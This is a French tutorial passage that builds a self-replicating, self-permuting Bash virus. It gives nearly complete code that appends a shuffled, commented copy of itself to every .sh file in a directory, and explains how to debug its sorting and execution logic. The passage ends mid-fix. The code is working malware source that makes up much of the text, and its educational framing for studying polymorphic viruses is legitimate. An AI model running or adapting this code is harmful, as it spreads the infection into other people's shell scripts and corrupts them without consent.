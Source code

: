 Modifions un peu notre code précédent :

```bash
tail -n 7 $0 | cut -c3- | sort -n -t@ -k2 > virus && chmod +x virus && ./virus
# for f in *.sh; do # @1
#   tail -n 6 $0 | sort -R > infection # @2
#   sed -i "s/^/# /" infection # @3
#   sed -i "/$[ RANDOM % 7 ] i\tail -n 7 $0 | cut -c3- | sort -n -t@ -k2 > virus && chmod +x virus && ./virus" infection #@4
#   cat infection >> $f # @5
# done # @6
```

En exécutant ce code, vous obtiendrez sans doute une erreur vous signifant que « La commande -il n'existe pas. ». « il », « tail », cela se ressemble, non ? Il semblerait que nous ayons fait une erreur de raisonnement. En appliquant la commande `cut -c3-` au fichier infecté avant le tri des dernières lignes, afin de décommenter le code, on oublie que la fonction de permutation inverse n'est pas commentée et donc qu'on coupe la commande `tail` en commençant par la colonne 3. Une astuce ? Rajouter deux espaces pour s'aligner sur le code commenté ! (On peut tout aussi bien changer la position de `cut -c3-` pour la mettre après `sort -n -t@ -k2` puisqu'il s'agit en fait de l'ordre des commandes qui n'est pas anodin.)

Il y a cependant une autre erreur de raisonnement. En effet, si vous exécutez ce code, il n'infectera aucun fichier. En effet, dans la première ligne nous récupérons le virus entier via `tail -n 7 $0` puis nous mettons le code ordonné dans un fichier virus que nous exécutons. Mais le fichier virus exécuté contient exactement la même première ligne que ci-dessus… On va donc toujours rester bloqué à la première ligne. Suffirait-il de modifier le `tail -n 7` en `tail -n 6` ? Eh non, car notre première ligne peut potentiellement se retrouver ailleurs puisque le code du virus est permuté et il faut donc bien récupérer les 7 lignes (i.e. le virus entier). L'astuce consiste à rajouter un `tail -n 6` à la suite.

Au final :

```bash
  tail -n 7 $0 | cut -c3- | sort -n -t@ -k2 | tail -n 6 > virus && chmod +x virus && ./virus
# for f in *.sh; do # @1
#   tail -n 6 $0 | sort -R > infection # @2
#   sed -i "s/^/# /" infection # @3
#   sed -i "/$[ RANDOM % 7 ] i\  tail -n 7 $0 | cut -c3- | sort -n -t@ -k2 | tail -n 6 > virus && chmod +x virus && ./virus" infection #@4
#   cat infection >> $f # @5
# done # @6
```

Il y a cependant, un autre soucis. Eh oui, c'est le problème avec ce genre de programme qui se « mord la queue », à première vue on ne pense pas forcément à toutes les subtilités ! (Remarquez que ça rend la chose d'autant plus intéressante.) A priori, notre virus permuté ne sera jamais trié dans l'ordre convenable. C'est pourtant étonnant, non ? Je ne pense pas avoir dis de bêtises et la commande sort est quand même fiable je suppose. Le problème vient pourtant bien de notre tri. Rappelez-vous, nous trions le code permuté grâce à la commande `sort -n -t@ -k2` et `@` est donc le séparateur censé précéder le numéro de la ligne courante. Observez bien le code… Le symbole `@` est utilisé ailleurs et c'est cela qui perturbe le fonctionnement de notre tri. Arrivé à ce constat, j'avoue avoir été un peu dégoûté, bloqué si proche du but. La solution la plus facile consisterai à représenter le `@` d'une autre manière. Merci Bash et sa possibilité d'exécuter des commandes via ``` `` ``` ! Servons nous par exemple de la représentation hexadécimale. `@` est encodé par le nombre `40`, il ne reste plus qu'à remplacer les `@` intempestifs par des `printf "\x40\n"` :
